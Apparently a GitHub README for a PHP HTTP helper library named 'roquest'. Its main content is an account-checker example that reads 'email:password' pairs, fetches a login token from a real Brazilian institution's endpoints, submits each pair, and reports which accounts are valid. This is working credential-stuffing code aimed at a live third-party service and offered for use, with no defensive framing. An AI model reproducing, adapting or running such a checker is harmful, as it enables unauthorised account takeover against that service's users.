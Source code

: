 # roquest
`$checker = new roquest();`
`$lista = "email@email.com:password"; //value`
`$conta = $checker->separarLista(array(':','|'),$lista); //multiexplode`

`$email = $conta[0]; //value1
$senha = $conta[1]; //value2`

`$url = "https://www.sp.senac.br/o/senac-content-services/geraTokenLogin"; //url to request
$url_2 = "https://www.sp.senac.br/o/senac-content-services/autenticacaoLogin";  //url to request`

`$headers = array(
'Accept: */*',
'Accept-Encoding: gzip, deflate, br',
'Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7',
'Connection: keep-alive',
);

$headers_2 = array(
    'Connection: keep-alive',
    'Content-Type: text/plain',
);`

`$r1 = $checker->requisiçaoGet($url,$headers,'cookie1','',''); // get request
$token = $checker->puxarDados($r1,'"token":"','"','1'); // get values

$data_2 = '{"email":"'.$email.'","senha":"'.$senha.'","token":"'.$token.'"}';

$r2 = $checker->requisiçaoPost($url_2,$headers_2,$data_2,'cookie1','','');

$validar = $checker->validarConta($r2,'"nome":"','incorreto(s)!'); //message to valid account
$nome = $checker->puxarDados($r2,'"nome":"','"','1'); // get values`

`if($validar == 1){
    echo "OK! $email:$senha -> $nome";
}
if($validar == 0){
    echo "ERROR! $email:$senha -> Usuário ou senha incorretos";
}
`
